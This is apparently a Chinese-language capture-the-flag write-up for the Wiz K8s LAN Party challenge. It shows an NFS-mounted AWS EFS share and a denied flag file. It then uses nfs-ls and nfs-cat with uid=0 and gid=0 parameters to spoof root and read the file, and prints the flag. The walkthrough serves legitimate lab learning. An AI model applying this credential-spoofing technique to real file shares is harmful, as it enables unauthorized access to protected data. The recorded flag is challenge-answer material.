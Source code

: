 ### 查看 nfs 挂载

    player@wiz-k8s-lan-party:~$ mount|grep -i "nfs"
    fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.57.108,local_lock=none,addr=192.168.124.98)
    

获取到信息

- 路径 `fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com`
- 挂载点 `/efs`
- 版本 `vers=4.1`

查看系统 `/efs`

    player@wiz-k8s-lan-party:~$ ls /efs
    flag.txt
    player@wiz-k8s-lan-party:~$ cat /efs/flag.txt
    cat: /efs/flag.txt: Permission denied
    

### 使用 `nfs-ls`

根据提示使用 `nfs-ls` 查看，需要加上 version uid gid 参数

    URL-FORMAT:
    nfs://[<username>@]<server|ipv4|ipv6>[:<port>]/path[?arg=val[&arg=val]*]
    uid=<int>         : UID value to use when talking to the server.
                         default it 65534 on Windows and getuid() on unixen.
    gid=<int>         : GID value to use when talking to the server.
                         default it 65534 on Windows and getgid() on unixen.
    version=<3|4>     : NFS Version. Default is 3.
    

添加参数构造链接查看

    player@wiz-k8s-lan-party:~$ nfs-ls "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4&uid=0&gid=0"
    ----------  1     1     1           73 flag.txt
    

### 使用 `nfs-cat`

    player@wiz-k8s-lan-party:~$ nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/flag.txt?version=4&uid=0&gid=0"
    Failed to mount nfs share : nfs_mount_async failed. Bad export path. Absolute path does not start with '/'
    Failed to open nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/flag.txt?version=4&uid=0&gid=0
    player@wiz-k8s-lan-party:~$ nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
    wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
    

第一次 `nfs-cat` 错误提示绝对路径 `flag.txt` 前面需要 `/` 添加后执行成功，获取 flag: `wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}`

